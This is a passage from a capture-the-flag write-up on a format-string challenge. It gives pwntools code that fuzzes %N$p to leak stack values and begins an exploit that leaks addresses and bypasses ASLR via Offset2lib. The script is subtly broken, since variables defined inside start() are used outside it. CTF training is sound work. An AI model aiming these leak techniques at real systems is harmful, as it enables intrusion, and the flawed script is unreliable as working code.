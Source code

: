 One thing that I forgot to mention - the remote server is probablty going to have ASLR enabled, so we need to use an Offset2lib to derandomise ASLR.

Using a fuzzer, we can see what we leak:
```python
from pwn import *
context.arch = "i386"
e = ELF("./repeat_your_beat")
p = process(e.path)
l = p.libc
rev = {value : key for (key, value) in l.sym.items()}
# Flip sym:addr dict
def exec_fmt(pl):
    p.sendline(pl)
    return p.clean()

for x in range(0, 256):
    l = exec_fmt(f"%{x}$p").strip()
    try:
        l = int(l, 16)
        print(f"%{x}$p : {hex(l)} - {rev[l]}")
    except:
        pass
```
```bash
euan@euanb26  binary  python3 fuzz.py
[*] '[some_path]/repeat_your_beat'
%2$p : 0xf7f2e5c0 - _IO_2_1_stdin_
```
And if we also try a ret2plt to read some addresses, we find that puts is located at `0xf7f3db40`
Let's put it into [libc blukht](https://libc.blukat.me/) and we get that the libc version is `libc6_2.27-3ubuntu1_i386`, great! We've now defeated ASLR.

Lets create a script:
```python
from pwn import *

def start():
    p = process(elf.path)
    libc = elf.libc

# Patched binary for using the server's libc and ld
elf = ELF("./repeat_your_beat")
ld = ELF("./ld-2.27.so")

start()
p.recvline()
# leaking libc, binary and stack
p.sendline("%2$x:%3$x:%83$x")
libc_leak, binary_leak, stack_leak = [int(x, 16) for x in p.recvline().decode().split(':')]

log.success(f"Libc leak = {hex(libc_leak)}")
log.success(f"Binary leak = {hex(binary_leak)}")
log.success(f"Stack leak = {hex(stack_leak)}")

# Bypassing ASLR using Offset2lib
libc.address = libc_leak - libc.symbols['_IO_2_1_stdin_']
elf.address = binary_leak - (elf.sym.main + 26) # Binary leak gives address of <main + 26>
# Using offset2libc on ld base address
ld_base_from_libc_base_offset = 0x1e2000
ld.address = libc.address + ld_base_from_libc_base_offset

log.success(f"Libc @ {hex(libc.address)}")
log.success(f"ld @ {hex(ld.address)}")
log.success(f"Binary @ {hex(elf.address)}")
```